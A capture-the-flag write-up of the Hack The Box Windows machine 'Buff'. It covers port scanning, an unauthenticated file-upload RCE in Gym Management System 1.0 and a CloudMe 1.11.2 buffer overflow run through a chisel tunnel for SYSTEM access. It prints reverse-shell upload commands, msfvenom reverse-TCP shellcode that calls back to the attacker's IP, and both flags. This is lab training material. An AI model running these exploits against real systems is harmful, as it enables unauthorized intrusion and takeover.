






+++
title = "Buff"
date = "2023-11-25"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2020-07-18

**Created by**: [egotisticalSW](https://app.hackthebox.com/users/94858)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`, while the target machine's IP address will be `10.10.10.198`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Buff using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.198 -p-
```

```
<SNIP>
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.198 -p 7680,8080 -sV
```

```
<SNIP>
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
<SNIP>
```

Okay, so apparently the mysterious port `7680/tcp` is open, and it may correspond to the `pando-pub` service. I didn't know what it was, so I searched online and found:

> Pando was an application which was mainly aimed at sending (and receiving) files which would normally be too large to send via more "conventional" means. It used both peer-to-peer (BitTorrent protocol) and client-server architectures and was released for Windows and Mac OS X operating systems.
>
> Pando shut down its servers and ceased business on August 31, 2013.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Pando_(application))

Buff is also hosting an Apache web server on port `8080/tcp`.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.198 -p 7680,8080 -sC
```

```
<SNIP>
PORT     STATE  SERVICE
7680/tcp closed pando-pub
8080/tcp closed http-proxy
<SNIP>
```

Well, apparently `nmap` doesn't have scripts to investigate these services.

Let's start by exploring the web server.

## Apache (port `8080/tcp`)

Let's browse to `http://10.10.10.198:8080/` and we see what we get.



This looks like a website about fitness. This is probably why this box is named Buff.

## HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.10.198:8080/ -I
```

```
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 20:03:00 GMT
Server: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
X-Powered-By: PHP/7.4.6
Set-Cookie: sec_session_id=kp9jg9vrqdq33uota2fh5ohcm2; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: sec_session_id=kb3skp6kamgj0s91bg566e9o96; path=/; HttpOnly
Content-Type: text/html; charset=UTF-8
```

The `X-Powered-By` indicates that PHP version `7.4.6` is used. It also confirms what we already discovered thanks to the scans we ran ealier: Buff is running Apache version `2.4.43`.

## Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



Surprisingly, it doesn't find the Apache technology. It does reveal that this website is using Bootstrap and libraries like jQuery though.

## Exploration

If we browse the website, we see that we have access to several web pages aside from the 'Home' web page.



The 'Package' page shows a table of the offers provided by this website.


The 'Facilities' page highlights the various facilities that are included in the packages.



The 'About' page is... well, an About page.



The 'Contact' page is pretty much empty. Unfortunately, there's no form that we can send. It would have been an interesting functionality to try exploiting.

It does inform us that this website is built with Gym Management Software version `1.0`. Let's search online for potential vulnerabilities, just in case.

The first result is actually a page from [ExploitDB](https://www.exploit-db.com/): [Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)! That's extremely promising! Unauthenticated RCE is awesome, and if the information in the 'Contact' page is correct, the version of Gym Management Software used matches the one in the exploit.

# Foothold (Unauthenticated RCE)

The Gym Management System version `1.0` is vulnerable to an unauthenticated file upload exploit that leads to RCE. The vulnerability lies in the `/upload.php` page, which lacks authentication checks. By manipulating the `id` parameter in the GET request, we can upload a malicious PHP file that bypasses image upload filters. The exploit involves bypassing extension whitelists, file type checks, and utilizing a double extension with the last one being a valid extension. The PHP file is then executed on the server-side.

Let's use it to obtain a reverse shell. I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's create the PHP file to get the reverse shell. I'm going to use the 'PHP Ivan Sincek' one from the last website, configured to use a `cmd` shell. The payload is more than 100 lines long, so I won't include it here.

Let's save it as `/workspace/revshell.php.png` to bypass the file extension whitelist.

Then, as indicated in the exploit instructions, let's upload it at the endpoint `/upload.php` with the `id` set to the filename we want to upload.

```sh
❯ curl -X POST -F "file=@/workspace/revshell.php.png;type=image/png" -F "pupload=upload" 'http://10.10.10.198:8080/upload.php?id=revshell' -s
```

Let's see if it worked by sending a request to `http://10.10.10.198:8080/upload/revshell.php`:

```sh
❯ curl http://10.10.10.198:8080/upload/revshell.php -s
```

Back to our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.198] 49676
SOCKET: Shell has connected! PID: 8900
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>
```

We got a shell!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `shaun`.

## Version

Let's gather some information about the Windows version of Buff.

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Windows 10 Enterprise
```

Okay, so this is Windows 10!

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    17134
```

And this is build `17134`.

This version of Windows is somewhat recent, but maybe there are missing hotfixes. We'll check that later, if we can't find another way to get `NT AUTHORITY\SYSTEM`.

## Architecture

What is Buff's architecture?

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    AMD64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Let's check if Windows Defender is enabled.

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender" /v ProductStatus
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender
    ProductStatus    REG_DWORD    0x0
```

It's disabled! That's great, it will make our life easier.

## AMSI

Let's check if there's any AMSI provider.

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers"
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}
```

So there's an AMSI provider. This will be a problem if we want to transfer our binaries to Buff, as it will block them.

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
C:\xampp\htdocs\gym\upload> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x1

End of search: 3 match(es) found.
```

Okay, so all Firewall profiles are enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
C:\xampp\htdocs\gym\upload> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : BUFF
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-E0-8C
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::1ce(Preferred) 
   Lease Obtained. . . . . . . . . . : 24 December 2023 10:39:24
   Lease Expires . . . . . . . . . . : 24 December 2023 11:39:24
   IPv6 Address. . . . . . . . . . . : dead:beef::e181:c5a6:4637:fe64(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::bc4e:8169:10d4:bda(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::e181:c5a6:4637:fe64%10(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.198(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:25b7%10
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 218124374
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-19-C2-B3-00-50-56-B9-E0-8C
   DNS Servers . . . . . . . . . . . : 8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb
```

Looks like there's a single network.

## Local users

Let's enumerate all local users using an obfuscated version of `PowerView`.

```cmd
C:\xampp\htdocs\gym\upload> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroupMember -GroupName Users | Where-Object { $_.MemberName -notmatch 'NT AUTHORITY' } | Select-Object GroupName, MemberName, SID | Format-Table"
```

```
GroupName MemberName SID                                           
--------- ---------- ---                                           
Users     BUFF\shaun S-1-5-21-2277156429-3381729605-2640630771-1001
```

It looks like there's only us, `shaun`.

## Local groups

Let's enumerate all local groups, once again using an obfuscated version of `PowerView`.

```cmd
C:\xampp\htdocs\gym\upload> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetLocalGroup | Select-Object GroupName, Comment | Format-Table | Out-String -Width 4096"
```

```
GroupName                           Comment                                                                                                                                                                                                       
---------                           -------                                                                                                                                                                                                       
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.                                                                                             
Administrators                      Administrators have complete and unrestricted access to the computer/domain                                                                                                                                   
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files                                                                                                     
Cryptographic Operators             Members are authorized to perform cryptographic operations.                                                                                                                                                   
Device Owners                       Members of this group can change system-wide settings.                                                                                                                                                        
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.                                                                                                                      
Event Log Readers                   Members of this group can read event logs from local machine                                                                                                                                                  
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted                                                                                
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.                                                                                                                       
IIS_IUSRS                           Built-in group used by Internet Information Services.                                                                                                                                                         
Network Configuration Operators      Members in this group can have some administrative privileges to manage configuration of networking features                                                                                                  
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer                                      
Performance Monitor Users           Members of this group can access performance counter data locally and remotely                                                                                                                                
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers                                                                                                                
Remote Desktop Users                Members in this group are granted the right to logon remotely                                                                                                                                                 
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain                                                                                                                                                                         
System Managed Accounts Group       Members of this group are managed by the system.                                                                                                                                                              
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

Looks classic.

## User account information

Let's gather more information about us.

```cmd
C:\xampp\htdocs\gym\upload> net user shaun
```

```
User name                    shaun
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            16/06/2020 14:08:08
Password expires             Never
Password changeable          16/06/2020 14:08:08
Password required            No
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   16/06/2020 21:38:46

Logon hours allowed          All

Local Group Memberships      *Users
Global Group memberships     *None
<SNIP>
```

We don't belong to interesting groups.

## Home folder

If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.

```cmd
C:\xampp\htdocs\gym\upload> type C:\Users\shaun\Desktop\user.txt
```

```
88312ffd7f3c340181ce4c65ded29dd8
```

However, we also notice an unusual file in the `Downloads` folder:

```cmd
C:\xampp\htdocs\gym\upload> dir C:\Users\shaun\Downloads
```

```
<SNIP>
14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
<SNIP>
```

There's a `CloudMe_1112.exe` file. Let's keep that in mind.

## Command history

If we look for a command history file, we find none.

## Tokens

Let's now focus on our tokens.

Which security groups are associated with our access tokens?

```cmd
C:\xampp\htdocs\gym\upload> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Unfortunately, there's nothing that we can abuse.

What about the privileges associated with our access tokens?

```cmd
C:\xampp\htdocs\gym\upload> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

There's nothing that we can leverage to elevate our privileges.

## Shares

Let's list the SMB shares available on Buff, using the same encoded version of `PowerView` as before.

```cmd
C:\xampp\htdocs\gym\upload> powershell -command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Unrestricted; Import-Module C:\tmp\PowerView.ps1; Get-NetShare | Select-Object Name, Remark | Format-Table"
```

```
Name   Remark       
----   ------       
ADMIN$ Remote Admin 
C$     Default share
IPC$   Remote IPC
```

So there's only default administrative shares.

## Environment variables

Let's check the environment variables for our shell. Maybe we'll find something out of the ordinary?

```cmd
C:\xampp\htdocs\gym\upload> set
```

```
C:\xampp\htdocs\gym\upload>set
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\shaun\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=BUFF
ComSpec=C:\Windows\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA=C:\Users\shaun\AppData\Local
NUMBER_OF_PROCESSORS=4
OneDrive=C:\Users\shaun\OneDrive
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\shaun\AppData\Local\Microsoft\WindowsApps
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=3100
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=%ProgramFiles%\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
PUBLIC=C:\Users\Public
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\shaun\AppData\Local\Temp
TMP=C:\Users\shaun\AppData\Local\Temp
USERDOMAIN=BUFF
USERNAME=shaun
USERPROFILE=C:\Users\shaun
windir=C:\Windows
AP_PARENT_PID=6540
```

There's nothing interesting.

## Listening ports

Let's see if any TCP local ports are listening for connections.

```cmd
C:\xampp\htdocs\gym\upload> netstat -ano | findstr /C:"LISTENING" | findstr /C:"TCP"
```

```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5908
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       6556
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       6424
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       524
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1104
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1512
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2160
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       692
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       3820
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       8136
  TCP    [::]:135               [::]:0                 LISTENING       952
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       6556
  TCP    [::]:8080              [::]:0                 LISTENING       6424
  TCP    [::]:49664             [::]:0                 LISTENING       524
  TCP    [::]:49665             [::]:0                 LISTENING       1104
  TCP    [::]:49666             [::]:0                 LISTENING       1512
  TCP    [::]:49667             [::]:0                 LISTENING       2160
  TCP    [::]:49668             [::]:0                 LISTENING       668
  TCP    [::]:49669             [::]:0                 LISTENING       692
```

There's many open ports, but few of them are interesting. Let's focus on those listening on the local machine, which we couldn't access from the outside.

We notice that the port `3306/tcp` is listening, which corresponds to MySQL. It probably holds the credentials for the website we explored earlier. But what is the port `8888/tcp` used for?

Let's see which process uses the PID associated with this port.

```cmd
C:\xampp\htdocs\gym\upload> for /f "tokens=5" %a in ('netstat -ano ^| findstr "8888"') do @tasklist /fi "pid eq %a"
```

```
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
CloudMe.exe                   5404                            0     37,436 K
```

This `CloudMe` program again! So it's running on this machine. This must be the same version as the one we found in the `Downloads` folder. Let's search online for vulnerabilities affecting this version.

The first result is an [ExploitDB](https://www.exploit-db.com/) entry named [CloudMe 1.11.2 - Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/48389). That's interesting! This fits our version of `CloudMe`.

# Privilege escalation (CloudMe)

The CloudMe application version `1.11.2` is vulnerable to a buffer overflow, which would allow us to execute commands as `NT AUTHORITY\SYSTEM`. This is exactly what we're looking for! There's one issue though: the exploit is written in Python, but Python is not installed on the machine.

## Preparation

In order to fix this issue, we can use local port forwarding to access this service from our own machine. This is easy to setup with SSH, but it's now available here. I'll use `chisel` to get this feature instead.

I'll transfer `chisel` for Windows on the machine, and then I'll start the server on my machine:

```sh
❯ /workspace/server/chisel server -p 8000 --reverse
```

```
2023/12/13 18:27:18 server: Reverse tunnelling enabled
2023/12/13 18:27:18 server: Fingerprint qqNIHgJjbeVK3bHK3/fNIKChoPDNuT6cez6utFzWRaU=
2023/12/13 18:27:18 server: Listening on http://0.0.0.0:8000
```

And then on Buff:

```cmd
C:\xampp\htdocs\gym\upload> C:\tmp\chisel.exe client 10.10.14.5:8000 R:8888:127.0.0.1:8888
```

```
2023/12/13 18:06:59 client: Connecting to ws://10.10.14.5:8000
2023/12/13 18:07:00 client: Connected (Latency 132.7866ms)
```

Alright, so now we should have access to CloudMe from our own machine.

However, according to the exploit's payload comment, it was obtained by running `msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`. So right now, it executes `calc.exe`, but that's not what we want. We want to obtain a reverse shell.

```sh
❯ rlwrap nc -lvnp 9002
```

```
listening on [any] 9002 ...
```

I'm going to modify the command ran to obtain this payload to one that will give us a reverse TCP shell (I tried the x64 version of it, but it didn't give a shell).

```sh
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9002 -b '\x00\x0A\x0D' -f python -v payload
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xba\xd6\xea\xbf\x9d\xdb\xcc\xd9\x74\x24\xf4"
payload += b"\x5e\x33\xc9\xb1\x52\x31\x56\x12\x83\xee\xfc"
payload += b"\x03\x80\xe4\x5d\x68\xd0\x11\x23\x93\x28\xe2"
payload += b"\x44\x1d\xcd\xd3\x44\x79\x86\x44\x75\x09\xca"
payload += b"\x68\xfe\x5f\xfe\xfb\x72\x48\xf1\x4c\x38\xae"
payload += b"\x3c\x4c\x11\x92\x5f\xce\x68\xc7\xbf\xef\xa2"
payload += b"\x1a\xbe\x28\xde\xd7\x92\xe1\x94\x4a\x02\x85"
payload += b"\xe1\x56\xa9\xd5\xe4\xde\x4e\xad\x07\xce\xc1"
payload += b"\xa5\x51\xd0\xe0\x6a\xea\x59\xfa\x6f\xd7\x10"
payload += b"\x71\x5b\xa3\xa2\x53\x95\x4c\x08\x9a\x19\xbf"
payload += b"\x50\xdb\x9e\x20\x27\x15\xdd\xdd\x30\xe2\x9f"
payload += b"\x39\xb4\xf0\x38\xc9\x6e\xdc\xb9\x1e\xe8\x97"
payload += b"\xb6\xeb\x7e\xff\xda\xea\x53\x74\xe6\x67\x52"
payload += b"\x5a\x6e\x33\x71\x7e\x2a\xe7\x18\x27\x96\x46"
payload += b"\x24\x37\x79\x36\x80\x3c\x94\x23\xb9\x1f\xf1"
payload += b"\x80\xf0\x9f\x01\x8f\x83\xec\x33\x10\x38\x7a"
payload += b"\x78\xd9\xe6\x7d\x7f\xf0\x5f\x11\x7e\xfb\x9f"
payload += b"\x38\x45\xaf\xcf\x52\x6c\xd0\x9b\xa2\x91\x05"
payload += b"\x0b\xf2\x3d\xf6\xec\xa2\xfd\xa6\x84\xa8\xf1"
payload += b"\x99\xb5\xd3\xdb\xb1\x5c\x2e\x8c\xb7\xaa\x3e"
payload += b"\x49\xa0\xa8\x3e\x72\x1a\x24\xd8\x1e\x4a\x60"
payload += b"\x73\xb7\xf3\x29\x0f\x26\xfb\xe7\x6a\x68\x77"
payload += b"\x04\x8b\x27\x70\x61\x9f\xd0\x70\x3c\xfd\x77"
payload += b"\x8e\xea\x69\x1b\x1d\x71\x69\x52\x3e\x2e\x3e"
payload += b"\x33\xf0\x27\xaa\xa9\xab\x91\xc8\x33\x2d\xd9"
payload += b"\x48\xe8\x8e\xe4\x51\x7d\xaa\xc2\x41\xbb\x33"
payload += b"\x4f\x35\x13\x62\x19\xe3\xd5\xdc\xeb\x5d\x8c"
payload += b"\xb3\xa5\x09\x49\xf8\x75\x4f\x56\xd5\x03\xaf"
payload += b"\xe7\x80\x55\xd0\xc8\x44\x52\xa9\x34\xf5\x9d"
payload += b"\x60\xfd\x05\xd4\x28\x54\x8e\xb1\xb9\xe4\xd3"
payload += b"\x41\x14\x2a\xea\xc1\x9c\xd3\x09\xd9\xd5\xd6"
payload += b"\x56\x5d\x06\xab\xc7\x08\x28\x18\xe7\x18"
```

We just need to modify the exploit payload with our own, save it in `exploit.py`, and we should be ready to go!

## Exploitation

Let's start the exploit!

```sh
❯ python3 exploit.py
```

And on our listener...

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.198] 49680
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

We received a connection! Yay!

If we run `whoami`, we can confirm that we are `NT AUTHORITY\SYSTEM`!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it on our Desktop!

```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

```
7802d95b0e342c478dbffc04aa7d126f
```

# Afterwords



That's it for this box! I found the foothold very easy to obtain once I got the idea of checking the software used to make this website. The privilege escalation was also quite easy to obtain, the hard part was setting up the local port forwarding and modifying the payload to obtain a reverse shell.

Thanks for reading!
